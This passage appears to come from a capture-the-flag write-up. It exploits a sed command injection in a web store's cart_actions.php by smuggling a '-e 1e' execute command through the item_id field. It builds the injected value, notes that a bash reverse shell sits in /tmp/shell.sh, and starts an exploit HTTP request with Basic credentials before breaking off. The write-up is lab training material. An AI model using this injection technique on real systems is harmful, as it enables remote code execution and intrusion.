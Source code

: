     the checks are on the `$user_id`, so I focus on the `$item_id`

    executed command: `sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}`

    `sed` man page references:
    - ```
      -i[SUFFIX], --in-place[=SUFFIX]
          edit files in place (makes backup if extension supplied). The default operation mode is to break symbolic and hard links. This can be changed with --follow-symlinks and --copy.
      ```
    
    - ```
      -e script, --expression=script
          add the script to the commands to be executed 
      ```
    
    - [https://www.gnu.org/software/sed/manual/html_node/Multiple-commands-syntax.html](https://www.gnu.org/software/sed/manual/html_node/Multiple-commands-syntax.html)

    - ```
      -e '1e command'
      ```
    
      the `1` identifies the line and the `e` identifies the command to be executed<br>
      *example: `echo 'date id' | tr ' ' '\n' | sed '1e'` &#8594; execute `date` command*<br>
      *example: `echo 'date id' | tr ' ' '\n' | sed '2e'` &#8594; execute `id` command*<br>
      *example: `echo './test.sh' | sed '1e'` &#8594; executes the script in the current directory*<br>

    exploit:

    - PREFIX: `sed -i '/item_id=`
    - EXPLOIT: `' -e '1e /tmp/shell.sh' '`
    - SUFFIX: `/d' /var/www/store/cart/1`

    <br>

    final command: `sed -i '/item_id=' -e '1e /tmp/shell.sh' '/d' /var/www/store/cart/1`

    *NOTE: inside `/tmp/shell.sh` I put the classic BASH reverse shell*
    
    I can run the exploit:
    ```
    POST /cart_actions.php HTTP/1.1
    Host: store.hat-valley.htb
    Content-Length: 64
    Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
    Accept: */*
    DNT: 1
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://store.hat-valley.htb
    Referer: http://store.hat-valley.htb/cart.php
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    sec-gpc: 1
    Connection: close
